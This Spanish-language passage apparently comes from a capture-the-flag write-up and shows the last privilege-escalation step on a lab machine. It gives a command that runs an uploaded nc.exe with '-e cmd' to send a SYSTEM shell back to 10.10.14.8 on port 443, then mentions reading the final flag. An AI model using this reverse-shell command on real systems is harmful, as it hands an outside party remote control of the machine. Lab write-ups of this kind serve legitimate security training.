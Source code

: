 Viendo que podemos ejecutar comandos como system, vamos a usar el nc.exe que enviamos al inicio del acceso para enviarnos una shell:

```
cmd="C:\Users\drbrown.HOSPITAL\3D Objects\nc.exe" -e cmd 10.10.14.8 443
```

![escalada](Imagenes/92.png)

Vamos al directorio Desktop del Administrador y visualizamos la flag final:

![escalada](Imagenes/93.png)
